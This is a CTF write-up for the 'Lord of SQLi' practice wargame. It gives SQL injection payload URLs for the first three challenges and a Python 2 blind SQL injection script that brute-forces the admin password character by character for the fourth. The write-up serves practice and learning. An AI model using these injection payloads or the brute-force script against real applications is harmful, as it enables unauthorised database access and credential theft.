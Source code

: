 # [Lord of SQLi] All Problems - Writeup

## 1. Gremlin
[http://los.eagle-jump.org/gremlin_bbc5af7bed14aa50b84986f2de742f31.php?id=%27||1%23](http://los.eagle-jump.org/gremlin_bbc5af7bed14aa50b84986f2de742f31.php?id=%27||1%23)

___

## 2. Cobolt
[http://los.eagle-jump.org/cobolt_ee003e254d2fe4fa6cc9505f89e44620.php?id=admin%27%23](http://los.eagle-jump.org/cobolt_ee003e254d2fe4fa6cc9505f89e44620.php?id=admin%27%23)

___

## 3. Goblin
[http://los.eagle-jump.org/goblin_5559aacf2617d21ebb6efe907b7dded8.php?no=0||id=0x61646D696E](http://los.eagle-jump.org/goblin_5559aacf2617d21ebb6efe907b7dded8.php?no=0||id=0x61646D696E)

___

## 4. Orc
``` python
import urllib
import httplib
 
def main():
    HTTP=httplib.HTTPConnection("los.eagle-jump.org")
    Url="/orc_47190a4d33f675a601f8def32df2583a.php?pw="
    Headers={"Cookie":"PHPSESSID=**secret**"}
    Passwd=""
 
    for i in range(len(Passwd)+1,100):
        for c in range(ord("0"),ord("9")+1)+range(ord("a"),ord("z")+1)+range(128,129):
            if c == 128:
                print "[!] Not Found"
                print "[*] Password : %s~" % Passwd
                return False
 
            Payload="'||id='admin'&&mid(pw,%d,1)=0x%x#" % (i,c)
            HTTP.request("GET",Url+urllib.quote(Payload),"",Headers)
 
            if "Hello admin" in HTTP.getresponse().read():
                Passwd+=chr(c)
                print "[+] Found : %c" % c
 
                HTTP.request("GET",Url+urllib.quote(Passwd),"",Headers)
                if "Hello admin" in HTTP.getresponse().read():
                    print "[*] Password : %s" % Passwd
                    return True
 
                break
 
if __name__ == "__main__":
    main()
```
